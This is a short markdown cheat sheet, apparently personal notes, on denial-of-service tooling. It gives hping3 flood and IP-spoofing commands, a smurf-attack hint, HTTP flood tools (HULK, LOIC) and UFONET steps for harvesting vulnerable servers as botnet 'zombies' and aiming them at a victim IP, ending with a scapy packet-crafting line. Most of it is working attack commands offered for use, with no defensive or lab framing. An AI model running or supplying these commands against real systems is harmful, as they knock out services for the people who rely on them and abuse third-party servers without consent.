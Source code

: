 ### hping3
- can also be used for scanning ports.
- useful options: `--flood` `--rand-source` `-p ++80`
- for smurf attack use `-S host_ip broadcast_range_mask`.
- UDP flood specific target with IP spoofing: ```hping3 -q -n -a 192.168.0.101 –udp -s 53 –keep -p 68 –flood 192.168.0.100```
### HTTP flooad attacks
- HULK
- LOIC: for more longer connections but also the rate of them is less than HULK. It actually waits some seconds for established connections and then send new requests.
### DDOS (botnet)
- UFONET
- you can use vulnerable servers as your zombies of net. first download them `--download-zombies`. and then verify them by `-t botnets/zombies.txt`
- `-i victim` to found the largest resource of it
- ```bash ufonet -a victim_ip -r 10 -b victim_ip/resource_path```
  - `-b` means the concurrent connections of each bot
- `./ufonet -s 'proxy.php?url=' --sa` : search all webservers through all search engines that contains specific strings. then you can check dork strings inside `botnets/dorsl.txt`.
### SCAPY
  ```python
  p=Ether()/IP(src='',dst='')/RAW("x"*20)
  ```
